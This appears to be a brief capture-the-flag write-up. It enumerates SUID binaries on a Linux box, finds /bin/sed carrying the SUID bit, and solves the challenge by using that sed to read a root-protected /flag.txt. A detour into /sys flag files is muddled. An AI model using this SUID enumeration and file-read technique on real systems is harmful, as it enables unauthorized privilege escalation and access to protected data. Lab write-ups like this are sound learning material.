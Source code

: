 Find SUID files and found a suspicous `/bin/sed`
```
ctf@e95bd34e8896:~$ find / -perm -u=s -type f 2>/dev/null
/bin/sed
/bin/su
/bin/mount
/bin/umount
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
```
The `/bin/sed` can be useful

find flag in `/` directory
```
/flag.txt
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
```
Their content:
```
0x1003 0x9
```
to base64
```
AQAwCQ==
```
to text
```
(not printable, too arrow facing outward each other)
```


suspcious file in /sys/devices/platform/serial8250/tty/*/flags
```
-r--r----- 1 root root 4096 Apr 21 03:05 /sys/devices/platform/serial8250/tty/ttyS0/flags
```

# solution
```
sed '/MCA*/p' /flag.txt

```




